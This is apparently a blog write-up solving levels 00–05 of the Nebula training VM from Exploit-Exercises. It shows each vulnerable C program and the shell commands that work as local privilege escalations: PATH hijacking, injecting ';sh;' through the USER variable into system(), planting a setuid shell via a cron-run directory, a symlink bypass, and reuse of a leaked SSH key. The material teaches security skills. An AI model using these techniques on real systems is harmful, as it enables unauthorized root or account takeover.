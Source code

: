 ```yaml
---
layout: post
title: "Exploit-Exercises: Nebula (00-05)"
categories: [vulnhub, exploit-exercises]
---
```

Image: [Exploit-Exercises: Nebula (v5)](https://www.vulnhub.com/entry/exploit-exercises-nebula-v5,31/)

Because it was not possible to log in via ssh, we generated the host key:

```
ssh-keygen -t rsa -f /etc/ssh/ssh_host_rsa_key
```

## Level00

```
level00@nebula:~$ find / \( -perm -4000 \) 2>/dev/null 
/bin/.../flag00
/bin/fusermount
/bin/mount
/bin/ping
/bin/ping6
/bin/su
[ .. SNIP .. ]
```

We found a suspicious file on the first line, after executing, we obtained flag.
```
level00@nebula:~$ id
uid=1001(level00) gid=1001(level00) groups=1001(level00)
level00@nebula:~$ /bin/.../flag00
Congrats, now run getflag to get your flag!
flag00@nebula:~$ id
uid=999(flag00) gid=1001(level00) groups=999(flag00),1001(level00)
flag00@nebula:~$ getflag 
You have successfully executed getflag on a target account
```

## Level01
```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
```

Solution:
```
level01@nebula:~$ export PATH=.:$PATH
level01@nebula:~$ echo 'sh' > echo
level01@nebula:~$ chmod +x ./echo
level01@nebula:~$ id
uid=1002(level01) gid=1002(level01) groups=1002(level01)
level01@nebula:~$ /home/flag01/flag01
sh-4.2$ id
uid=998(flag01) gid=1002(level01) groups=998(flag01),1002(level01)
sh-4.2$ getflag
You have successfully executed getflag on a target account
```

## Level02
```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);
  
  system(buffer);
}
```

Solution:
```
level02@nebula:~$ export USER=';sh;'
level02@nebula:~$ /home/flag02/flag02 
about to call system("/bin/echo ;sh; is cool")

sh-4.2$ getflag 
You have successfully executed getflag on a target account
```

## Level03
There is a crontab entry that is called every couple of minutes.

Because the /tmp is mounted with nosuid option, we use home directory to store suid binary:
```
level03@nebula:~$ mount | grep nosuid
proc on /proc type proc (rw,noexec,nosuid,nodev)
sysfs on /sys type sysfs (rw,noexec,nosuid,nodev)
devpts on /dev/pts type devpts (rw,noexec,nosuid,gid=5,mode=0620)
tmpfs on /run type tmpfs (rw,noexec,nosuid,size=10%,mode=0755)
tmpfs on /tmp type tmpfs (rw,nosuid,nodev)
none on /run/lock type tmpfs (rw,noexec,nosuid,nodev,size=5242880)
none on /run/shm type tmpfs (rw,nosuid,nodev)
vmware-vmblock on /run/vmblock-fuse type fuse.vmware-vmblock (rw,nosuid,nodev,default_permissions,allow_other)
```

The file invoked by cron is here:

```bash
level03@nebula:/home/flag03$ cat writable.sh 
#!/bin/sh

for i in /home/flag03/writable.d/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
``` 

Our code to obtain suid shell:
```bash
level03@nebula:~$ cd /home/flag03/writable.d/

level03@nebula:/home/flag03/writable.d$ echo '#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

int main()
{
   setreuid(geteuid(),geteuid());
   execve("/bin/sh", NULL, NULL);

   return 0;
}
' > /tmp/run.c


level03@nebula:/home/flag03/writable.d$ echo '#!/bin/bash
gcc /tmp/run.c -o /home/flag03/x
chmod +s /home/flag03/x
' > run.sh
level03@nebula:/home/flag03/writable.d$ chmod +x run.sh
```

After a little waiting, the suid binary is created:
```bash
level03@nebula:/home/flag03/writable.d$ ../x 
bash-4.2$ getflag 
You have successfully executed getflag on a target account
```

## Level04
```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>

int main(int argc, char **argv, char **envp)
{
  char buf[1024];
  int fd, rc;

  if(argc == 1) {
      printf("%s [file to read]\n", argv[0]);
      exit(EXIT_FAILURE);
  }

  if(strstr(argv[1], "token") != NULL) {
      printf("You may not access '%s'\n", argv[1]);
      exit(EXIT_FAILURE);
  }

  fd = open(argv[1], O_RDONLY);
  if(fd == -1) {
      err(EXIT_FAILURE, "Unable to open %s", argv[1]);
  }

  rc = read(fd, buf, sizeof(buf));
  
  if(rc == -1) {
      err(EXIT_FAILURE, "Unable to read fd %d", fd);
  }

  write(1, buf, rc);
}
```

We cannot read the token file, but symlink technique is sufficient:
```
level04@nebula:~$ cd /home/flag04/
level04@nebula:/home/flag04$ ./flag04 
./flag04 [file to read]
level04@nebula:/home/flag04$ ./flag04 token 
You may not access 'token'
level04@nebula:/home/flag04$ ln -s /home/flag04/token /tmp/x
level04@nebula:/home/flag04$ ./flag04 /tmp/x 
06508b5e-8909-4f38-b630-fdb148a848a2
level04@nebula:/home/flag04$ su - flag04
Password: 
flag04@nebula:~$ getflag 
You have successfully executed getflag on a target account
```

## Level05
In /home/flag05 we can find the backup file with ssh private key.

```
level05@nebula:/home/flag05$ tar xvzf .backup/backup-19072011.tgz  -C /tmp/
.ssh/
.ssh/id_rsa.pub
.ssh/id_rsa
.ssh/authorized_keys

level05@nebula:/home/flag05$ ssh -i /tmp/.ssh/id_rsa flag05@0
flag05@nebula:~$ getflag 
You have successfully executed getflag on a target account
```

